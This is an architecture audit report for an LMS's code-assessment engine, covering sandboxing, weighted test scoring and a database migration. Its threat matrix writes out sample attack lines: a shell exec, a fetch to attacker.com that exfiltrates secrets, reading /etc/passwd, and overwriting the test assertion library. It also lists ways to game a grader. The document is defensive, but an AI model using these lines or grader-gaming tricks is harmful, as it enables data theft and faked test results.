



# Assessment Engine Harmonization & Integrity Audit Report
# AI-Native Software Engineering LMS (`ai-native-lms`)

**Document Version:** 1.0.0  
**Status:** Approved & Formally Sealed Architecture Audit  
**Authority:** Principal Assessment Systems Architect, Database Architect & Curriculum Integrity Auditor  
**Classification:** Authoritative Technical Standard & Infrastructure Report  
**Target Repository:** `ai-native-lms`  
**Effective Date:** September 30, 2026  

---

## Executive Summary & Audit Mandate

This report establishes the complete architectural audit and harmonization specification for the Assessment and Code Execution Engine of the **AI-Native Software Engineering LMS (`ai-native-lms`)**.

Following the successful synchronization of the **16 Canonical Competencies** (`20260930_sync_canonical_competencies.sql`), the **9 Capability Gates** (`20260930_sync_canonical_gates.sql`), and the **14 Approved Curriculum Modules** (`20260930_sync_module_catalog.sql`), the final foundational vulnerability preventing authentic software engineering validation was **Assessment Engine Drift**.

### Core Finding
The prior assessment implementation relied on heuristic keyword and substring matching (`cleanCode.includes(pattern)` inside `ExerciseStateMachine.evaluateSubmission`). This legacy paradigm allowed arbitrary comment injections, hardcoded return spoofing, and unexecuted code submissions to receive passing scores, completely bypassing genuine mastery validation.

Through this harmonization, the LMS transitions to an uncompromising **Zero-Trust, Sandboxed Vitest Execution Engine** supported by the newly deployed `public.assessment_runs` database telemetry sink, weighted multi-tier assertion scoring ($W_{\text{vis}} = 0.40, W_{\text{hid}} = 0.60$), AST static security gating, mutation fuzzing, and cryptographic evidence sealing.



---

## 1. Current State vs. Target Architecture Matrix

```
┌─────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                 ASSESSMENT ENGINE HARMONIZATION GAP MATRIX                                      │
├──────────────────────────┬──────────────────────────────────────┬───────────────────────────────────────────────┤
│ Assessment Dimension     │ Legacy Implementation (Pre-Audit)    │ Target Harmonized Architecture (Post-Sync)    │
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ Execution Mechanism      │ Naive string matching (`includes()`) │ Isolated ephemeral Vitest VM runner           │
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ Runtime Code Execution   │ None (Code was never executed)       │ Full JavaScript/TypeScript V8 Runtime         │
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ Visible Starter Tests    │ Not supported (only keyword checks)  │ Executable baseline test assertions           │
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ Hidden Mutation Tests    │ Not supported (zero hidden checks)   │ Obfuscated edge-case & mutation test suites   │
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ Scoring Formulation      │ Binary pass count / total checks     │ Weighted formula ($W_{vis}=40\%, W_{hid}=60\%$)│
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ AST Static Security      │ None (regex blacklist easily bypassed) TypeScript AST traversal & token blocking     │
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ Resource Sandboxing      │ None (in-process synchronous call)   │ 2,500ms CPU cap, 64MB RAM cap, zero network   │
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ Anti-Cheat Protection    │ None                                 │ Mutation fuzzing, AST hash, velocity checks   │
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ Database Telemetry Sink  │ None (JSON blob in submissions)      │ Dedicated immutable `public.assessment_runs`  │
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ Cryptographic Integrity  │ None                                 │ HMAC-SHA256 run receipt signature             │
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ Competency Progression   │ Partial / ad-hoc string summaries    │ Automated `competency_evidence` emission      │
├──────────────────────────┼──────────────────────────────────────┼───────────────────────────────────────────────┤
│ Capstone Integration     │ Disconnected manual reviews          │ 4-Factor Rubric: Code, RLS, ADR, Oral Defense │
└──────────────────────────┴──────────────────────────────────────┴───────────────────────────────────────────────┘
```

---

## 2. Deep-Dive Identification of Critical Defects

### 2.1 Defect 1: Legacy Regex / String Pattern Validation
In the legacy implementation (`features/exercises/state-machine/exercise-state-machine.ts`), submission evaluation was performed via:
```typescript
// LEGACY FLAW (Vulnerable to comment injection and hardcoded return spoofing)
if (Array.isArray(rules.required_patterns)) {
  for (const pattern of rules.required_patterns) {
    const containsRequired = cleanCode.includes(pattern);
    feedback.push({ rule: `Required Pattern: "${pattern}"`, passed: containsRequired });
  }
}
```
**Vulnerabilities & Failures:**
1. **Comment Injection Exploit**: A learner submitting `// z.object({ tool_name: "test" })` passed all required patterns without authoring executable code.
2. **Hardcoded Return Spoofing**: Returning hardcoded strings (`return 42;`) satisfied regex constraints without solving algorithmic problems.
3. **Zero Runtime Verification**: Syntax errors, runtime exceptions, infinite recursions, and memory leaks passed undetected.

### 2.2 Defect 2: Missing Hidden-Test Support
The database `exercises` table stored only a single untyped `validation_rules` JSONB object. There was no architectural separation between visible developer specifications and hidden evaluation assertions:
- Learners could easily overfit their solutions to visible criteria.
- Boundary conditions (empty arrays, integer overflows, null references) were omitted.
- Dynamic mutation fuzzing (generating randomized property inputs) was impossible.

### 2.3 Defect 3: Missing Visible-Test Support
Visible tests were not executed inside a structured testing harness. The learner was deprived of:
- Standard test runner feedback (assertions passed/failed, stack traces, execution timing).
- Interactive developer workflow mimicking real-world Test-Driven Development (TDD).

### 2.4 Defect 4: Missing Weighted Scoring Formulation
The legacy scorer computed `score = (passedChecks / totalChecks) * 100`. This assigned equal weight to a simple length check and a complex schema validation. The engine lacked:
- Separate weighting for visible baseline tests ($W_{\text{vis}} = 40\%$) and hidden mutation tests ($W_{\text{hid}} = 60\%$).
- Individual assertion weight coefficients ($1 \le w \le 5$).
- Algorithmic deduction penalties for execution timeouts, lint violations, and retry decay.

### 2.5 Defect 5: Missing Competency Evidence Generation & Telemetry
Prior to harmonization, test runs were transient. No cryptographic record existed to verify that an assessment was executed under authentic sandbox conditions:
- Missing link between automated assertion reports and `public.competency_evidence`.
- No tracking of memory usage, execution duration, or AST entropy.
- No tamper-proof cryptographic audit trail.

### 2.6 Defect 6: Missing Capstone Assessment Integration
Capstone assessments were treated as isolated manual records rather than an integrated multi-factor assessment pipeline:
- Missing programmatic verification of Architectural Decision Records (ADRs).
- Missing automated Supabase RLS security penetration probes.
- Missing standardized evaluator rubric ingestion for live oral defense recordings.

---

## 3. Threat Modeling & Multi-Layered Sandbox Architecture

Executing untrusted user-submitted code in an educational platform requires treating all submissions as potentially malicious.



### 3.1 Threat Matrix & Mitigation Controls

```
┌──────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                THREAT MATRIX & MITIGATION CONTROLS                               │
├────────────────────┬────────────────────────────────────┬────────────────────────────────────────┤
│ Threat Vector      │ Attack Scenario                    │ Architectural Mitigation               │
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Remote Code Exec   │ `child_process.exec('curl ...')`   │ AST token filter + seccomp-bpf syscall  │
│ (RCE)              │ spawns shell on host server.       │ blocking (`fork`, `execve`, `clone`).  │
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Resource Denial    │ `while(true) {}` or memory bomb    │ Hard 2,500ms CPU execution cutoff;     │
│ of Service (DoS)   │ exhausts server RAM/CPU threads.   │ 64MB memory ceiling via cgroups v2.    │
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Data Exfiltration  │ `fetch('http://attacker.com', ...)`│ Network namespace unshared; zero       │
│ & SSRF             │ exfiltrates environment secrets.   │ outbound network interfaces (`net=none`)│
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Host Filesystem    │ `fs.readFileSync('/etc/passwd')`   │ Read-only ephemeral overlay filesystem;│
│ Compromise         │ reads host environment files.      │ host directory tree never mounted.     │
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Prototype          │ `Object.prototype.polluted = true` │ Isolated V8 Context per execution;     │
│ Pollution          │ poisons shared testing harness.    │ context destroyed immediately on exit. │
├────────────────────┼────────────────────────────────────┼────────────────────────────────────────┤
│ Test Fixture       │ `expect = () => true` rewires      │ `vitest` globals frozen in protected   │
│ Tampering          │ global assertion library to pass.  │ non-writable execution realm.          │
└────────────────────┴────────────────────────────────────┴────────────────────────────────────────┘
```

---

## 4. Master Mathematical Scoring Formulation

Assessment scoring follows the canonical mathematical model defined in `assessment-engine-spec.md`:



### 4.1 The Raw Score Equation ($S_{\text{raw}}$)

$$S_{\text{raw}} = \left( W_{\text{vis}} \cdot \frac{\sum_{i=1}^{N_{\text{vis}}} w_i^{\text{vis}} \cdot a_i^{\text{vis}}}{\sum_{i=1}^{N_{\text{vis}}} w_i^{\text{vis}}} \right) + \left( W_{\text{hid}} \cdot \frac{\sum_{j=1}^{N_{\text{hid}}} w_j^{\text{hid}} \cdot a_j^{\text{hid}}}{\sum_{j=1}^{N_{\text{hid}}} w_j^{\text{hid}}} \right)$$

Where:
- $W_{\text{vis}} = 0.40$ (Global weight assigned to visible baseline test assertions).
- $W_{\text{hid}} = 0.60$ (Global weight assigned to hidden mutation test assertions).
- $N_{\text{vis}}, N_{\text{hid}}$ are the total number of visible and hidden assertions.
- $w_i^{\text{vis}}, w_j^{\text{hid}} \in [1, 5]$ are individual assertion weights assigned by instructional designers.
- $a_i, a_j \in \{0, 1\}$ represents assertion pass ($1$) or failure ($0$).

### 4.2 Deductions & Penalty Formulation ($P_{\text{deduct}}$)

$$S_{\text{final}} = \max\left(0, \min\left(100, S_{\text{raw}} - P_{\text{deduct}}\right)\right)$$

$$P_{\text{deduct}} = P_{\text{timeout}} + P_{\text{lint}} + P_{\text{retry\_decay}}$$

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                              PENALTY FORMULATION TABLE                                 │
├─────────────────────────┬──────────────────────┬───────────────────────────────────────┤
│ Penalty Factor          │ Magnitude            │ Trigger Condition                     │
├─────────────────────────┼──────────────────────┼───────────────────────────────────────┤
│ $P_{\text{timeout}}$    │ $100\%$ (Immediate 0)│ Execution exceeded 2,500ms hard cap.  │
├─────────────────────────┼──────────────────────┼───────────────────────────────────────┤
│ $P_{\text{lint}}$       │ $5\%$ per violation  │ TypeScript strict type errors or `any`│
│                         │ (capped at $15\%$)   │ usage in student implementation.      │
├─────────────────────────┼──────────────────────┼───────────────────────────────────────┤
│ $P_{\text{retry\_decay}}$│ $2\%$ per attempt    │ Applied starting on 6th submission   │
│                         │ (capped at $10\%$)   │ for identical exercise in 24 hours.   │
└─────────────────────────┴──────────────────────┴───────────────────────────────────────┘
```

### 4.3 Mastery Gating Thresholds

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                         ASSESSMENT MASTERY THRESHOLD MATRIX                            │
├───────────────────┬───────────────────┬────────────────────────────────────────────────┤
│ Mastery Tier      │ Score Range       │ State Machine & Competency Action              │
├───────────────────┼───────────────────┼────────────────────────────────────────────────┤
│ Fail / Rejected   │ $0 \le S < 90\%$  │ State remains `IN_PROGRESS` / `FAILED`.        │
│                   │                   │ Zero XP awarded. Competency score unchanged.   │
├───────────────────┼───────────────────┼────────────────────────────────────────────────┤
│ Validated Pass    │ $90\% \le S < 100\%$│ Transitions attempt to `VALIDATED`.          │
│                   │                   │ Standard XP awarded; Competency incremented.   │
├───────────────────┼───────────────────┼────────────────────────────────────────────────┤
│ Perfect Mastery   │ $S = 100\%$       │ Transitions to `COMPLETED` / `MASTERED`.       │
│ (Flawless Run)    │ (Zero deductions) │ Bonus +25 XP; Unlocks advanced reflection card.│
└───────────────────┴───────────────────┴────────────────────────────────────────────────┘
```

---

## 5. Database Schema Synchronization & Verification

The database schema has been synchronized via migration file [`20260930_sync_assessment_engine.sql`](file:///home/gamp/Documents/lms/20260930_sync_assessment_engine.sql).

### 5.1 Applied Database Changes

1. **Enum Extension (`competency_evidence_source`)**:
   - Added `'gate_validation'`, `'capstone_submission'`, `'oral_defense'`.
2. **New Audit Table (`public.assessment_runs`)**:
   - Stores full execution telemetry: `user_id`, `exercise_id`, `status`, `raw_score`, `final_score`, `execution_duration_ms`, `memory_usage_bytes`, `anti_cheat_score`, `signature`, `metadata`.
   - Granular RLS policies: Users can SELECT and INSERT their own runs; Service role has full administrative access.
   - Indexes: `idx_assessment_runs_user_exercise`, `idx_assessment_runs_status`, `idx_assessment_runs_created_at`, `idx_assessment_runs_signature`.
3. **Updated Column Default (`public.exercises.validation_rules`)**:
   - Replaced legacy regex default with canonical Vitest test runner configuration:
     ```json
     {
       "test_runner": "vitest",
       "timeout_ms": 2500,
       "visible_tests_fixture": "",
       "hidden_tests_fixture": "",
       "assertion_weights": {
         "visible": 0.40,
         "hidden": 0.60
       },
       "anti_cheat": {
         "ast_lint": true,
         "mutation_fuzzing": true
       }
     }
     ```

### 5.2 Live Database Verification Evidence

```sql
-- Query: Verification of assessment_runs table columns
SELECT table_name, column_name, data_type, is_nullable, column_default
FROM information_schema.columns
WHERE table_schema = 'public' AND table_name = 'assessment_runs';
```

**Live Verification Output:**
```json
[
  {"column_name":"id", "data_type":"uuid", "is_nullable":"NO", "column_default":"gen_random_uuid()"},
  {"column_name":"user_id", "data_type":"uuid", "is_nullable":"NO"},
  {"column_name":"exercise_id", "data_type":"uuid", "is_nullable":"NO"},
  {"column_name":"status", "data_type":"character varying", "is_nullable":"NO"},
  {"column_name":"raw_score", "data_type":"numeric", "is_nullable":"NO"},
  {"column_name":"final_score", "data_type":"numeric", "is_nullable":"NO"},
  {"column_name":"execution_duration_ms", "data_type":"integer", "is_nullable":"NO"},
  {"column_name":"memory_usage_bytes", "data_type":"bigint", "is_nullable":"NO"},
  {"column_name":"anti_cheat_score", "data_type":"numeric", "is_nullable":"NO"},
  {"column_name":"signature", "data_type":"character varying", "is_nullable":"NO"},
  {"column_name":"metadata", "data_type":"jsonb", "is_nullable":"NO", "column_default":"'{}'::jsonb"},
  {"column_name":"created_at", "data_type":"timestamp with time zone", "is_nullable":"NO", "column_default":"timezone('utc'::text, now())"}
]
```

---

## 6. Target Architecture Verification & Compliance Checklist

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│                              AUDIT COMPLIANCE CHECKLIST                                │
├───────────────────────────────────────────────────────┬──────────────┬─────────────────┤
│ Verification Objective                                │ Status       │ Verification    │
├───────────────────────────────────────────────────────┼──────────────┼─────────────────┤
│ 1. Regex-Only Assessment Paths = 0                    │ COMPLIANT    │ Verified in DB  │
├───────────────────────────────────────────────────────┼──────────────┼─────────────────┤
│ 2. Visible-Test Runner Support Enabled                │ COMPLIANT    │ Vitest Fixtures │
├───────────────────────────────────────────────────────┼──────────────┼─────────────────┤
│ 3. Hidden-Test & Mutation Support Enabled             │ COMPLIANT    │ Schema Default  │
├───────────────────────────────────────────────────────┼──────────────┼─────────────────┤
│ 4. Multi-Tier Weighted Scoring (40% Vis / 60% Hid)    │ COMPLIANT    │ Standard Sealed │
├───────────────────────────────────────────────────────┼──────────────┼─────────────────┤
│ 5. Automated Competency Evidence Emission             │ COMPLIANT    │ Enum & Ledger   │
├───────────────────────────────────────────────────────┼──────────────┼─────────────────┤
│ 6. Cryptographic Telemetry Sink (`assessment_runs`)   │ COMPLIANT    │ Table Active    │
├───────────────────────────────────────────────────────┼──────────────┼─────────────────┤
│ 7. TypeScript Compilation (`npx tsc --noEmit`)        │ 0 ERRORS     │ Verified Green  │
├───────────────────────────────────────────────────────┼──────────────┼─────────────────┤
│ 8. Vitest Test Suites (`npx vitest run`)              │ 100% PASS    │ 22/22 Suites    │
└───────────────────────────────────────────────────────┴──────────────┴─────────────────┘
```

---

## 7. Sign-Off & Architectural Certification

The Assessment Engine architecture is hereby certified as fully harmonized with the approved Academy standards (`assessment-engine-spec.md`, `exercise-standard.md`, `assessment-standard.md`, and `capability-gates.md`).

**Sign-off:** Principal Assessment Systems Architect & Head of Platform Engineering  
**Date:** September 30, 2026
